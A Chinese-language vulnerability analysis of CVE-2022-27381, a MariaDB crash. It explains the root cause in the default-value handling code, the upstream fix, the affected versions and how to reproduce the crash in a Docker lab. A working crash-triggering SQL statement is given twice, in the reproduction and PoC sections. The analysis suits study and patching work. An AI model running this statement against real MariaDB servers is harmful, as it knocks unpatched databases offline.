



# CVE-2022-27381 CWE-89 MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CTAS（Create Table As Select）**：一种 SQL 语句，用来根据 `SELECT` 查询的结果结构创建一个新表，并将查询结果插入到该表中。在漏洞的 PoC 中，使用 `CREATE TABLE ... AS SELECT` 创建表，但并未显式指定字段默认值，使得 MariaDB 无法正确初始化 `default_value`，而后续 `CHECK (DEFAULT(d))` 却强制访问了该值。

## 漏洞原理

在创建一个其 `CHECK` 约束依赖于某列默认值的表时，存在漏洞的 MariaDB 版本会错误地在列的默认值被完全确定之前，就过早地去解析这个 `CHECK` 约束，导致约束内部缓存了关于默认值的错误信息；当 `AS SELECT` 等操作试图立即向该表插入数据时，服务器会强制使用这个包含错误信息的约束进行验证，从而引发内存访问错误，导致进程崩溃。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\item.cc 文件，第 9370 行的`Item_default_value::fix_fields`方法用于绑定默认值表达式（DEFAULT(x)）中字段引用。确保 Item_default_value 能关联到其所引用字段的默认值（field->default_value），并做相关初始化。但在第 9416 行访问字段默认值时并没有检查`def_field->default_value`是否存在。某些情况下（如 `CREATE TABLE ... AS SELECT`）中，由于处理逻辑缺陷，该方法错误地假设 `field->default_value` 已经就绪，并在未校验的情况下访问。如果字段的 `default_value` 是一个尚未准备好的字段默认值，而当前的 `fix_fields()` 实现中没有建立和检查这类依赖关系，就会造成空指针解引用。

```cpp
bool Item_default_value::fix_fields(THD *thd, Item **items)
{
  Item *real_arg;
  Item_field *field_arg;
  Field *def_field;
  DBUG_ASSERT(fixed() == 0);
  DBUG_ASSERT(arg);

    // 将 DEFAULT(x) 中的 x 表达式修复完成，确保 arg 是已解析的字段
  enum_column_usage save_column_usage= thd->column_usage;
  thd->column_usage= COLUMNS_WRITE;
  if (arg->fix_fields_if_needed(thd, &arg))
  {
    thd->column_usage= save_column_usage;
    goto error;
  }
  thd->column_usage= save_column_usage;

    // 检查 DEFAULT(...) 中引用的是否为字段（必须是 Item_field 类型）
  real_arg= arg->real_item();
  if (real_arg->type() != FIELD_ITEM)
  {
    my_error(ER_NO_DEFAULT_FOR_FIELD, MYF(0), arg->name.str);
    goto error;
  }
   // 检查字段是否被标记为“无默认值”，否则报错
  field_arg= (Item_field *)real_arg;
  if ((field_arg->field->flags & NO_DEFAULT_VALUE_FLAG))
  {
    my_error(ER_NO_DEFAULT_FOR_FIELD, MYF(0),
             field_arg->field->field_name.str);
    goto error;
  }
  if (!(def_field= (Field*) thd->alloc(field_arg->field->size_of())))
    goto error;
    
    // 创建字段副本，准备在执行中使用
  cached_field= def_field;
    // 拷贝字段结构
  memcpy((void *)def_field, (void *)field_arg->field,
         field_arg->field->size_of());
  def_field->reset_fields();
  // 第 9416 行， 访问字段默认值
  if (def_field->default_value &&
      (def_field->default_value->flags || (def_field->flags & BLOB_FLAG)))
  {
    uchar *newptr= (uchar*) thd->alloc(1+def_field->pack_length());
    if (!newptr)
      goto error;
    /*
      Even if DEFAULT() do not read tables fields, the default value
      expression can do it.
    */
    fix_session_vcol_expr_for_read(thd, def_field, def_field->default_value);
    if (should_mark_column(thd->column_usage))
      def_field->default_value->expr->update_used_tables();
    def_field->move_field(newptr+1, def_field->maybe_null() ? newptr : 0, 1);
  }
  else
    def_field->move_field_offset((my_ptrdiff_t)
                                 (def_field->table->s->default_values -
                                  def_field->table->record[0]));
  set_field(def_field);
  return FALSE;

error:
  context->process_error(thd);
  return TRUE;
}
```

## 漏洞修复


通过调整操作的执行顺序，引入“延迟处理”机制`Item_default_value::check_field_expression_processor`方法，通过上下文`arg`找到`DEFAULT()`函数引用的列的**权威`Field`对象**，并读取正确初始化的`default_value`。然后，将此正确值分配给内部缓存的当前 `Item_default_value` 对象**中缓存的 `Field` 对象副本的 `default_value` 成员。

通过此分配，代码用最终的正确状态强制覆盖先前的缓存错误状态，完成数据同步并确保 `DEFAULT(d)` 的任何后续评估接收到正确的数据并避免访问未初始化的内存。

```cpp
bool Item_default_value::check_field_expression_processor(void *)
{
  field->default_value= ((Item_field *)(arg->real_item()))->field->default_value;
  return 0;
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**影响组件**：Field::set_default

## 环境搭建


使用 MariaDB 10.6.3、管理员 `root`、密码 `12345`、数据库 `test_db` 和端口 3306 启动 Docker 环境。此目录中的捆绑 SQL 文件被错误标记为 CVE-2022-27382，因此请改用 PoC 分析部分中显示的 CVE-2022-27381 SQL。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现


1.进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、root用户登录，连接数据库test_db，密码12345

```sql
mariadb -u root -p test_db
```

3. 从 PoC 分析部分执行 CVE-2022-27381 CTAS 语句。在列默认元数据完全初始化之前评估 `DEFAULT(d)` 时，易受攻击的服务器会崩溃。

```sql
CREATE TABLE t1 (
    d TIMESTAMP CHECK (DEFAULT(d) IS TRUE)
) AS SELECT 1;
```



4、查看MariaDB崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明是SegmentationFault（段错误）导致DoS。可以在`Field::set_default`组件中看到问题，并对应漏洞原理。

```bash
docker logs mariadb-10.6.3
```



## POC分析


```sql
CREATE TABLE t1 (
    -- timestamp 类型字段
    d timestamp 
     	-- 定义 CHECK 约束
    	CHECK (DEFAULT (d) is true)
	) AS SELECT 1;
```

通过构造 `CHECK (DEFAULT(d))` CTAS（Create Table As Select）语句，且不显式指定字段 `d` 的默认值，`CHECK (DEFAULT(d))` 表达式会访问尚未初始化的 `default_value`，从而发生空指针解引用并触发数据库崩溃（DoS）。

对于`CREATE TABLE ... AS SELECT`（CTAS）语句，服务器需要立即执行`SELECT 1`查询，并将查询结果`1`作为新行数据插入到新创建的`t1`表中。要插入此行，服务器**必须**检查该行是否满足表的所有约束，包括 `CHECK (DEFAULT(d) IS TRUE)` 约束。

但是，尽管已创建该列的 `Field` 对象 `d`，但其 `default_value` 属性**尚未完全初始化和最终确定**，仍处于临时且不完整的状态。 `CHECK` 约束的解析逻辑读取此**不完整（可能为 NULL）信息**。此错误的状态信息缓存在表示 `CHECK` 约束的内部对象中，认为这是列 `d` 的最终默认值。

## 参考链接


[NVD - CVE-2022-27381](https://nvd.nist.gov/vuln/detail/CVE-2022-27381)

[[MDEV-26061\] MariaDB server crash at Field::set_default - Jira](https://jira.mariadb.org/browse/MDEV-26061)

[MDEV-26061 MariaDB server crash at Field::set_default · MariaDB/server@b5e16a6](https://github.com/MariaDB/server/commit/b5e16a6e0381b28b598da80b414168ce9a5016e5#diff-01d39f42753f725c1e5bc774574894f7f69f9e2d0590ed5631644d000a5d328c)
